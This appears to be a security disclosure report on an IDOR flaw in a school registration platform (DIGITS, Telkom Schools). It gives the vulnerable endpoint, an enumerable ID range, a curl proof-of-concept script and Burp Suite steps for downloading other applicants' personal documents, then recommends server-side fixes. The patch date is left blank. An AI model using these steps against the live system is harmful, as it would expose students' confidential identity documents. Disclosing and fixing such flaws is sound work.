




# IDOR Vulnerability in DIGITS Application

## Overview
A report on an Insecure Direct Object Reference (IDOR) vulnerability in **DIGITS** (Telkom Schools School Registration / PPDB platform at `digits.telkomschools.sch.id` & `gw-ppdb.telkomschools.sch.id`). This vulnerability allows any authenticated applicant/student to view and download confidential registration documents uploaded by other users simply by manipulating the document ID parameter.

---

## Vulnerability Details
- **Vulnerability Type:** Insecure Direct Object Reference (IDOR) / Broken Object-Level Authorization (BOLA)
- **Severity:** Critical
- **Affected Domain:** `gw-ppdb.telkomschools.sch.id` / `digits.telkomschools.sch.id`
- **Affected Endpoint:** `GET /api/pendaftar/doc-file/{document_id}`
- **Vulnerable Parameter:** `{document_id}` (Sequential numeric identifier in path)
- **Tested ID Range:** Most numbers between **200 and 20,000+** return valid student documents
- **Authentication Required:** Yes (Valid student/applicant session Bearer JWT token)

---

## Description
When a user uploads personal documents (such as birth certificates, family registration cards, diplomas, photos, or identity cards) during the school registration process, the server assigns a sequential numeric identifier (`document_id`) to each uploaded file.

When retrieving or viewing a document, the frontend calls:
```http
GET /api/pendaftar/doc-file/{document_id} HTTP/1.1
Host: gw-ppdb.telkomschools.sch.id
Authorization: Bearer <AUTH_TOKEN>
Origin: https://digits.telkomschools.sch.id
```

While the endpoint verifies that the user is authenticated via a Bearer token, it fails to perform an authorization check to verify whether the requested `document_id` belongs to the authenticated user. 

Because the IDs are predictable incremental integers and **most numbers between 200 and 20,000+** map to active student documents, an attacker can iterate through this range to scrape tens of thousands of sensitive personal records belonging to applicants across institutions (e.g., SMK Telkom Malang and other Telkom Schools branches).

---

## Impact
- **Mass Confidential Data Scraping:** Tens of thousands of documents spanning IDs  to 20,000+ are publicly accessible to any authenticated account.
- **Privacy & Regulatory Violations:** Severe breach of student data privacy protection.

---

## Proof of Concept (PoC)

### Method 1: Using `request.sh` (cURL / CLI)

A standalone reproduction script [`request.sh`](./request.sh) is provided to quickly reproduce the vulnerability from the command line.

```bash
#!/bin/bash

curl --url 'https://gw-ppdb.telkomschools.sch.id/api/pendaftar/doc-file/{TARGET ID GOES HERE}' \
  -H 'accept: application/json, text/plain, */*' \
  -H 'accept-language: en-US,en;q=0.9' \
  -H 'authorization: {BEARER TOKEN GOES HERE}' \
  -H 'origin: https://digits.telkomschools.sch.id' \
  -H 'priority: u=1, i' \
  -H 'sec-ch-ua: "Not=A?Brand";v="99", "Google Chrome";v="151", "Chromium";v="151"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Linux"' \
  -H 'sec-fetch-dest: empty' \
  -H 'sec-fetch-mode: cors' \
  -H 'sec-fetch-site: same-site' \
  -H 'user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/151.0.0.0 Safari/537.36' \
  --output out.png
```

#### Steps to Reproduce (Method 1)

1. **Log in to the Application**  
   Log in to the re-registration / PPDB portal at `https://digits.telkomschools.sch.id`.
   
   

2. **Extract Active Bearer Token**  
   Open Chrome DevTools, navigate to the **Network** tab, and locate any API call to `gw-ppdb.telkomschools.sch.id` (such as loading documents). Copy the `Bearer` token from the `Authorization` request header.
   
   

3. **Configure the PoC Script (`request.sh`)**  
   Open [`request.sh`](./request.sh) and change the following:
   - `{BEARER TOKEN GOES HERE}` with your extracted JWT Bearer token (make sure to include the "Bearer ").
   - `{TARGET ID GOES HERE}` with any target document ID (most integer values between **200 and 20000** work and points to a valid document).
   
   

4. **Execute the Request**  
   Make the script executable and run it:
   ```bash
   chmod +x request.sh
   ./request.sh
   ```

5. **Verify Downloaded Document**  
   Check the downloaded `out.png` (or corresponding document file), keep in mind the .png was just for testing, the actual file types and extension may be different. It contains the personal document belonging to another user, confirming the authorization bypass.

---

### Method 2: Intercepting and Reproducing with Burp Suite

For security triagers and analysts testing via web proxy:

#### Steps to Reproduce (Method 2)

1. **Configure Proxy & Scope**
   - Open Burp Suite and verify the Proxy Listener is running on `127.0.0.1:8080`.
   - Use Burp's built-in Chromium browser (or route your browser traffic through Burp with the Burp CA certificate installed).

2. **Authenticate & Navigate to DIGITS**
   - Log in to `https://digits.telkomschools.sch.id` as a registered applicant.
   - Navigate to the **Registrasi Ulang / Unggah Dokumen** section where personal files are displayed.

3. **Locate or Intercept the Document Request**
   - In Burp, navigate to **Proxy > HTTP history** (or turn **Intercept ON** in **Proxy > Intercept**).
   - Click **"Lihat"** on any of your own uploaded documents.
   - Locate the HTTP request directed to:
     ```http
     GET /api/pendaftar/doc-file/<OWN_DOCUMENT_ID> HTTP/1.1
     Host: gw-ppdb.telkomschools.sch.id
     ```

4. **Send to Repeater & Manipulate the ID**
   - Right-click the captured request and select **Send to Repeater** (`Ctrl+R` / `Cmd+R`).
   - In the **Repeater** tab, replace your document ID in the URL path with any target ID between **200 and 20000** (e.g., change `/api/pendaftar/doc-file/19642` to `/api/pendaftar/doc-file/19623`).
   - Keep your original `Authorization: Bearer <TOKEN>` header intact.

   

5. **Send and Inspect the Unauthorized Document**
   - Click **Send**.
   - Observe the response:
     - **Status:** `HTTP/1.1 200 OK`
     - **Headers:** `Content-Type: image/png` (or `image/jpeg`, `application/pdf`)
     - **Body:** Binary payload containing the document uploaded by the victim applicant.
   - Switch to the **Render** tab to view the leaked document directly inside Burp Suite:

   

---

## Root Cause Analysis
- **Missing Object-Level Authorization:** The API controller checks only that the incoming request contains a valid JWT session, but does not verify that the authenticated user is the legitimate owner of the requested document ID.
- **Predictable Sequential IDs:** Incremental numeric IDs (`200` to `20000+`) make full enumeration and automated mass scraping trivial without requiring brute force.

---

## Recommended server-side changes
1. **Enforce Server-Side Ownership Validation:**
   Ensure the authenticated applicant's ID matches the owner of the requested document before returning data:
   ```pseudocode
   document = Document.findById(request.params.document_id)
   if (document.applicant_id != authenticated_user.id && !authenticated_user.hasRole('ADMIN')):
       return HttpResponse(403, "Forbidden")
   ```
2. **Use Indirect / Non-Sequential Identifiers:**
   Replace sequential integers with UUIDv4 or random opaque tokens for document access.
3. **Audit Sibling Endpoints:**
   Review all `/api/pendaftar/*` endpoints to ensure consistent object-level access controls across user profiles, grades, and registrations.

---

## Disclosure Timeline
- **Vulnerability Discovered:** 2026-04-02
- **Vulnerability Reported:** 2026-09-09
- **Vulnerability Patched:** YYYY-MM-DD

---
*Reported by: [ahnaf505](https://github.com/ahnaf505)*
